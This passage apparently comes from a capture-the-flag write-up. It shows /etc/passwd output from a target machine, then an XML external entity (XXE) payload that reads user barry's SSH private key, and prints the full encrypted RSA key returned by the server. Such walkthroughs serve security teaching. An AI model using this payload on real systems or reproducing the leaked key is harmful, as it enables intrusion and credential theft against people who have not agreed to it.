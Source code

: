 ```html
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
joe:x:1002:1002::/home/joe:/bin/bash
barry:x:1003:1003::/home/barry:/bin/bash<p/>    </section>
```

We can read code on the machine with this vulnerability.

We know that barry can use ssh so his key should be on /home/barry/.ssh.id_rsa. Let's try to grab it.
Using this payload :
```shell
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

We get : 

```shell
 <h3>Comment Preview:</h3><p>Name: Joe Hamd</p><p>Author : Barry Clad</p><p>Comment :<br> -----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----<p/>    </section>
```
